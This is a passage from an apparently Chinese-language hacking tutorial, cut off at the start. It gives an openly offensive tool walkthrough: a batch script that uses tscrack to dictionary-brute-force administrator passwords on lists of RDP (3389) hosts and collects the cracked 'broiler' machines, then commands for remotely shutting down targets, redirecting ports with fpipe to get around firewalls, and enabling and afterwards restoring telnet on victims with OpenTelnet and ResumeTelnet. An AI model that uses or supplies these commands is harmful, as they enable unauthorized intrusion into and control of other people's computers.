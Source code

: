 　　@tscrack %1 -l administrator -w pass.dic >>rouji.txt

　　:noscan

　　@echo tscrack.exe no find or scan faild

　　(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)

　　hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。



　　**其它**

　　Shutdown.exe

　　Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）

　　fpipe.exe (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）

　　fpipe -l 80 -s 1029 -r 80 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息

　　Fpipe -l 23 -s 88 -r 23 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。

　　OpenTelnet.exe (远程开启telnet工具)

　　opentelnet.exe IP 帐号　密码　ntlm认证方式　Telnet端口 （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务后，就可用telnet ip 连接上对方。

　　NTLM认证方式：0：不使用NTLM身份验证；1：先尝试NTLM身份验证，如果失败，再使用用户名和密码；2：只使用NTLM身份验证。

　　ResumeTelnet.exe (OpenTelnet附带的另一个工具)

　　resumetelnet.exe IP　帐号　密码 用Telnet连接完对方后，就用这个命令将对方的Telnet设置还原，并同时关闭Telnet服务。



